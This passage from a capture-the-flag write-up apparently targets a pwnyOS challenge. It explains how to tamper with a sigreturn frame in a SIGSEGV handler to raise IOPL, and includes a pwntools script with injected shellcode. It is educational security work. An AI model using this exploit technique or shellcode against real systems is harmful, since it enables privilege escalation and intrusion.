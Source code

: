 To execute sigreturn on its own we'd have to fake the stack etc. manually, which I decided not to do. When a signal handler is executed due to a SIGSEGV or SIGINT,  a sigreturn frame is pushed onto the stack, along with some code to execute sigreturn (also the return address is set to the address of the trampoline, so that is on the top of the stack)

<img width="590" alt="Sigreturn frame" src="https://user-images.githubusercontent.com/62653826/128645406-c46c6a38-7502-4753-9658-0a620896f4be.png">


This allows the program to get back to exactly where it was after the signal is handled - when the signal handler returns, it will execute the trampoline code, restoring the registers from the sigreturn frame, and returning to where it was.

Anyways, this means that from the signal handler code, we can simply tweak the frame to have more malicious values.

The mask for IOPL is 0x3000

<img width="928" alt="EFLAGS information" src="https://user-images.githubusercontent.com/62653826/128645461-9f2dd048-3220-48d2-a57a-dae68065625d.png">


So simply ORing the previous value of EFLAGS with 0x3000 will set IOPL to 3(setting both bits)

Here's what I did:
* Use shellcode to read more new shellcode onto the stack, for 256 uninterrupted bytes
* Register the address of the new shellcode as a SIGSEGV handler
* Cause a segmentation fault(SIGSEGV) by reading an address that does not exist

```python
from pwn import *
import time
e = ELF("./fs/fs/bin/hidden_hard_drive")
context.arch = "i386"
p = process("./start.sh",shell=True) if args.LOCAL else remote('hiddenhd-pwnyos.chal.uiuc.tf', 1337)
NUM_TO_RET = 0x48

# Run vulnerable binary
time.sleep(5)
p.sendline("hidden_hard_drive")
p.recvuntil("0x")
bufaddr = int(p.recvline(), 16)
log.info(f"Buffer address: {hex(bufaddr)}")
newshellcode = bufaddr + 0x50
sc = asm(f"mov eax, 4; xor ebx, ebx; mov ecx, {hex(newshellcode)}; mov edx, 0x100 ; int 0x80")
# Register the new shellcode as sigsegv handler
sc += asm(f"xor ebx, ebx ; mov ecx, {hex(newshellcode)} ; mov eax, 14 ; int 0x80")
# Trigger sigsegv
sc += asm(f"mov eax, 0xdeadbeef ; mov dword ptr [eax], 0")
payload = fit({0: sc, NUM_TO_RET: bufaddr})
pause()
p.sendline(payload)
time.sleep(2)
handler = asm("mov ebx, dword ptr [esp+44] ; or ebx, 0x3000 ; mov dword ptr [esp+44], ebx")
handler += asm(f"mov dword ptr [esp+36], {hex(newshellcode + 0x17)}; ret")
```
The first piece of shellcode simply reads new shellcode, registers the sigsegv handler, and triggers a sigsegv by trying to read 0xdeadbeef.
